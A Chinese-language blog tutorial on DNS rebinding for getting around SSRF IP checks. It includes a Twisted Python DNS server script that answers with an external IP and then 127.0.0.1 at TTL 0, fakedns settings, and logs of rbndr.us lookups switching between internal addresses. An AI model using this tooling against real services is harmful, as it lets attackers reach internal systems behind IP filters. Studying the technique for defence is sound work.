







DNS rebinding是啥
利用服务器两次解析同一域名的短暂间隙，更换域名背后的ip达到突破同源策略或过waf进行ssrf的目的。
举个例子一般，进行ssrf防御的模式如下。

- 获取到输入的URL，从该URL中提取host
- 对该host进行DNS解析，获取到解析的IP
- 检测该IP是否是合法的，比如是否是私有IP等
- 如果IP检测为合法的，则进入curl的阶段发包
这样的逻辑是有问题的，因为第二次服务端完全可以不使用url就是使用已被检查过的ip。
诚如前面所说同一url被用了两次，所以完全可以将TTL调到一个非常小的值，让第一次通过url拿到的ip失效，然后在curl的时候服务端必须再进行一次dns解析拿到ip，而这个ip没有被检查，于是就可以为所欲为了。在ssrf里面就是第一次解析出外网ip，第二次解析出内网ip。
一个demo
要实现dns重绑定一个重要的条件就是将TTL调到接近0的数字，一般的域名服务商是不允许TTL那么低的。所以只有自己搭或者自己写一个dns服务器。这里选择使用fakedns做一个简单的实验初体验。
vi一个dns.conf写
1
| A cl0und.site 12.34.56.78,127.0.0.1
|
然后分别dig两次
1
| dig @fakedns所在的ip cl0und.site
|

完整复现
当然比赛或者实战里面是不可能自己任意指定dns服务器解析，所以必须自己配置dns记录。貌似阿里是可以配置ns记录的。我用的国外的域名服务商貌似比较坑设置nameserver那里不允许用ip。
不讲道理，纠结了半天最后在ip后面加xip.io绕过。

nameserver更新的比较慢要半个小时左右。

半个小时以后~

可以看到成功是成功了，但是ttl有300实战中应该是不可接受的。但是看源码的时候发现ttl设置的1,很迷
所以去网上偷了一个脚本
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
| from twisted.internet import reactor, defer
from twisted.names import client, dns, error, server
record={}
class DynamicResolver(object):
def _doDynamicResponse(self, query):
name = query.name.name
if name not in record or record[name]<1:
ip="12.34.56.78"
else:
ip="127.0.0.1"
if name not in record:
record[name]=0
record[name]+=1
print name+" ===> "+ip
answer = dns.RRHeader(
name=name,
type=dns.A,
cls=dns.IN,
ttl=0,
payload=dns.Record_A(address=b'%s'%ip,ttl=0)
)
answers = [answer]
authority = []
additional = []
return answers, authority, additional
def query(self, query, timeout=None):
return defer.succeed(self._doDynamicResponse(query))
def main():
factory = server.DNSServerFactory(
clients=[DynamicResolver(), client.Resolver(resolv='/etc/resolv.conf')]
)
protocol = dns.DNSDatagramProtocol(controller=factory)
reactor.listenUDP(53, protocol)
reactor.run()
if __name__ == '__main__':
raise SystemExit(main())
|
开始安装twisted库失败，安装之前要先装一下，备忘
1
| apt-get install build-essential autoconf libtool pkg-config python-opengl python-imaging python-pyrex python-pyside.qtopengl idle-python2.7 qt4-dev-tools qt4-designer libqtgui4 libqtcore4 libqt4-xml libqt4-test libqt4-script libqt4-network libqt4-dbus python-qt4 python-qt4-gl libgle3 python-dev
|
1
2
| pip install twisted==16.6.0
pip install service-identity==16.0.0
|
后来推断应该是操作的系统的锅，空白的那一次实际上是解析出东西了的。300秒貌似是操作系统强制的（？）。
但是实际上已经成功了，在kali和centos上测了一下都是这个结果。


不稳定的偷懒方法
法一
这个方法不需要，有自己的域名和nameserver。因为有人已经帮大家实现了。只需要把想用的ip转换成16进制，比如想在127.0.0.1 和 192.168.0.1互换那么只需要，键入ip7f000001.c0a80001.rbndr.us
然后就是看脸了。随机试了一轮
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
| [root@localhost redis]# host 7f000001.c0a80001.rbndr.us
7f000001.c0a80001.rbndr.us has address 127.0.0.1
[root@localhost redis]# host 7f000001.c0a80001.rbndr.us
7f000001.c0a80001.rbndr.us has address 192.168.0.1
[root@localhost redis]# host 7f000001.c0a80001.rbndr.us
7f000001.c0a80001.rbndr.us has address 192.168.0.1
[root@localhost redis]# host 7f000001.c0a80001.rbndr.us
7f000001.c0a80001.rbndr.us has address 192.168.0.1
[root@localhost redis]# host 7f000001.c0a80001.rbndr.us
7f000001.c0a80001.rbndr.us has address 127.0.0.1
[root@localhost redis]# host 7f000001.c0a80001.rbndr.us
7f000001.c0a80001.rbndr.us has address 127.0.0.1
[root@localhost redis]# host 7f000001.c0a80001.rbndr.us
7f000001.c0a80001.rbndr.us has address 127.0.0.1
[root@localhost redis]# host 7f000001.c0a80001.rbndr.us
7f000001.c0a80001.rbndr.us has address 192.168.0.1
[root@localhost redis]# host 7f000001.c0a80001.rbndr.us
7f000001.c0a80001.rbndr.us has address 192.168.0.1
[root@localhost redis]# host 7f000001.c0a80001.rbndr.us
7f000001.c0a80001.rbndr.us has address 127.0.0.1
[root@localhost redis]# host 7f000001.c0a80001.rbndr.us
7f000001.c0a80001.rbndr.us has address 192.168.0.1
[root@localhost redis]# host 7f000001.c0a80001.rbndr.us
7f000001.c0a80001.rbndr.us has address 192.168.0.1
[root@localhost redis]# host 7f000001.c0a80001.rbndr.us
7f000001.c0a80001.rbndr.us has address 192.168.0.1
[root@localhost redis]# host 7f000001.c0a80001.rbndr.us
7f000001.c0a80001.rbndr.us has address 192.168.0.1
[root@localhost redis]# host 7f000001.c0a80001.rbndr.us
7f000001.c0a80001.rbndr.us has address 192.168.0.1
[root@localhost redis]# host 7f000001.c0a80001.rbndr.us
7f000001.c0a80001.rbndr.us has address 127.0.0.1
[root@localhost redis]# host 7f000001.c0a80001.rbndr.us
7f000001.c0a80001.rbndr.us has address 127.0.0.1
[root@localhost redis]# host 7f000001.c0a80001.rbndr.us
7f000001.c0a80001.rbndr.us has address 127.0.0.1
[root@localhost redis]# host 7f000001.c0a80001.rbndr.us
7f000001.c0a80001.rbndr.us has address 192.168.0.1
[root@localhost redis]# host 7f000001.c0a80001.rbndr.us
7f000001.c0a80001.rbndr.us has address 127.0.0.1
[root@localhost redis]# host 7f000001.c0a80001.rbndr.us
7f000001.c0a80001.rbndr.us has address 192.168.0.1
|
法二
在bendawang师傅的博客看到的自己设置两个A记录一个内网,一个外网。去装外网先返回内网后返回这个概率。
参考
http://www.bendawang.site/2017/05/31/%E5%85%B3%E4%BA%8EDNS-rebinding%E7%9A%84%E6%80%BB%E7%BB%93/
https://ricterz.me/posts/Use%20DNS%20Rebinding%20to%20Bypass%20IP%20Restriction?_=1485134878505
https://github.com/taviso/rbndr/